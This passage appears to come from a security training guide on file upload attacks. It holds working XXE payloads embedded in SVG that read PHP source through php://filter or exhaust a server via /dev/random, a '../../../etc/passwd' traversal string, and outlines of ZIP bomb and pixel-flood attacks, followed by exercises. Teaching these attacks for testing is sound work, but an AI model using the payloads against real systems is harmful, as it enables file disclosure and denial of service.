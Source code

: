 ### Reading Source Code
Modify the XXE payload to read source files, e.g., `index.php`, in a PHP application:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```
- The output will be Base64-encoded. Decode it to read the source code.

### Extending XXE
- **Other Documents**: Modify XML data in document types like PDF, Word, or PowerPoint.
- **SSRF Attacks**: Use XXE to enumerate internal services or call private APIs.

---

## DoS (Denial of Service)
### Exploiting XXE for DoS
Use an XXE payload to overwhelm the server:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///dev/random"> ]>
<svg>&xxe;</svg>
```

### Decompression Bombs
Upload a ZIP archive containing nested ZIP files, creating Petabytes of data:

- Example: A ZIP bomb with repeated nested files.

### Pixel Flood
Manipulate image compression data to create a massive image:

1. Create a small image (e.g., 500x500 pixels).
2. Modify its compression data to indicate an exaggerated size (e.g., `0xffff x 0xffff`, 4 Gigapixels).

### Large File Uploads
Upload a file larger than what the server can handle, potentially filling up disk space.

### Directory Traversal
Attempt to upload files to unintended directories:

```bash
../../../etc/passwd
```

---

## Exercises
1. Test XSS attacks using HTML, image metadata, and SVG.
2. Exploit XXE vulnerabilities with SVG to read sensitive files.
3. Attempt DoS attacks using decompression bombs, pixel floods, or large file uploads.
